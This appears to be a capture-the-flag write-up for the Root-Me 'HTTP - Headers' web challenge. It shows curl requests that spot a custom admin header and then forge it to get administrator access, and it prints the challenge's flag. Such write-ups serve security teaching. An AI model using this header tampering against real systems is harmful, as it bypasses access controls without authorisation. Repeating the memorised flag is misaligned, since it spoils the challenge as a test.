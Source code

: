 ```yaml
---
title: HTTP - Headers
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 15
* Link: https://www.root-me.org/en/Challenges/Web-Server/HTTP-Headers

## Statement

> Get an administrator access to the webpage.

### Hint

> HTTP response give informations

## Solution

Let's visit the site:
```sh
curl -i http://challenge01.root-me.org/web-serveur/ch5/
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 20 Jun 2023 13:27:33 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Header-RootMe-Admin: none
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
</body>
</html>
```

Check here
```
Header-RootMe-Admin: none
```

Let's try
```sh
curl -H "Header-RootMe-Admin: true" http://challenge01.root-me.org/web-serveur/ch5/
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password HeadersMayBeUseful
</p></body>
</html>
```

The flag is
```
HeadersMayBeUseful
```
